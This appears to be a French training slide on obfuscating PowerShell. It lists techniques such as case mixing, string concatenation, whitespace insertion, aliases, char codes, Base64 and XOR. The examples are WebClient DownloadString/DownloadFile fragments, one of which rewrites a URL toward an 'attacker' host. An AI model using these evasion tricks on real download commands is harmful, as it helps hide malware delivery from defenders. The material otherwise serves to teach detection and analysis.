

# Obscurcissement des donnees
Utiliser des opérations pour rendre les données illisibles
 Mélange de lettres majuscules et minuscules :                     (neW-oBjEct system.NeT.WeBclieNT). dOWNloadfiLe

 Les chaînes de caractères peuvent être concaténées :           (New-Object Net.WebClient). DownloadString(“ht”+’tp://’+$url)

Des espaces blancs peuvent être insérés :                               ( New-Object Net.WebClient ). DownloadString( $url)

 Des guillemets simples ou doubles pour les arguments :         ‘DownloadFile’

 De nombreuses commandes ont des alias :                             GCM = Get-Command

 Les chaînes de caractères peuvent être remplacées par des chaînes codées (hex, ASCI, octal) :   [char]58 = “:”

 Manipulations des chaînes de caractères :    (New-Object Net.WebClient). Downloadstring((“http://myGoodSite.tld”
                                                                      -replace “Good” “attacker”))

 Les chaînes de caractères peuvent être compressées et encodées (Base64) ou cryptées (XOR).
;